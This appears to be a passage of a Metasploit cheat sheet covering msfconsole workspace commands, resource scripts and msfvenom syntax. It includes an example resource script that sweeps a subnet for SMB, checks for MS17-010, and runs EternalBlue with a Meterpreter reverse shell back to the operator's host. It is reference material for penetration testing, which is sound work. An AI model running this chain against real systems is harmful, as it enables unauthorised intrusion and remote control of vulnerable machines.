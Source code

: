 | `notes` | List notes in database | `notes` |
| `workspace` | List workspaces | `workspace` |
| `workspace -a <name>` | Add workspace | `workspace -a projectX` |
| `workspace -d <name>` | Delete workspace | `workspace -d projectX` |
| `workspace <name>` | Switch workspace | `workspace projectX` |

### Advanced Features

#### Resource Scripts
| Command | Description | Example |
|---------|-------------|---------|
| `makerc <file>` | Save commands to resource file | `makerc autoexploit.rc` |
| `resource <file>` | Execute commands from resource file | `resource autoexploit.rc` |

#### Example Resource Script

```ruby
# Example resource script for automated scanning and exploitation
# Save as scan_exploit.rc and run with: msfconsole -r scan_exploit.rc

# Set global variables
setg RHOSTS 192.168.1.0/24
setg THREADS 10

# Scan network for SMB services
use auxiliary/scanner/smb/smb_version
run

# Find potential EternalBlue targets
use auxiliary/scanner/smb/smb_ms17_010
run

# Attempt to exploit vulnerable systems
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

**How to use resource scripts:**
1. Create a text file with the commands you want to automate
2. Run with `msfconsole -r yourscript.rc` or use `resource yourscript.rc` from within msfconsole

### MSFVenom Payload Generation

#### Basic Syntax
```bash
msfvenom -p <payload> <options> -f <format> -o <output_file>
```
